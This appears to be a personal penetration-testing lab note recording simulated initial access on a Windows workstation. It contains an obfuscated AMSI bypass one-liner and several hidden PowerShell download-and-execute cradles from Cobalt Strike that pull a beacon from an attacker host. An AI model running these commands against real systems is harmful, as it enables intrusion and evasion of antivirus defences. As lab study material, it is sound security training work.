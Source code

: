 ```yaml
---
created_date: 28 September 2023
updated_date: 28 September 2023
type: Initial Access
---
```

##### Machine Information
```
IP Address: 10.10.123.101
Hostname:WKSTN-2
Operating System: 10.0.19044 N/A Build 19044
Exploit & Port: Guacomole initial access
Privilege Escalation: TBD
Credentials:

Path to Box:

Attacker Desktop
-> WKSTN-2
```
### High-Level Summary

A brief description of the attack chain with machine names, including the depth of compromise should be included here.

-------------
#### Testing for Windows Defender
```powershell
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
```
![[Pasted image 20231102163055.png]]
Windows Defender exists on this machine

#### Simulated Initial Access
opened WKSTN-2 and ran amsi bypass in powershell session
```powershell
#obfuscated oneliner amsi bypass
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
PowerShell command to close prompt after executing `beacon` executable
```powershell

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))"
```
PowerShell command to utilize [[Manual AMSI Bypass]]
```powershell
iex (new-object net.webclient).downloadstring("http://10.10.5.50:80/bypass"); iex (new-object net.webclient).downloadstring("http://10.10.5.50:80/a")
```

created `Scripted Web Delivery` in Cobalt Strike `Attacks -> Scripted Web Delivery (S) ->` with options below
![[Pasted image 20231102152004.png]]
hitting launch spit out powershell code below to spawn a beacon
```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))"

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))"

#this one worked 
# TYPE: powershell IEX
IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))
IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/b'))
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/b'))"
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/b'))"
```
copied/pasted powershell command in same powershell terminal that the amsi bypass occurred in to get initial access beacon.
![[Pasted image 20231102152216.png]]

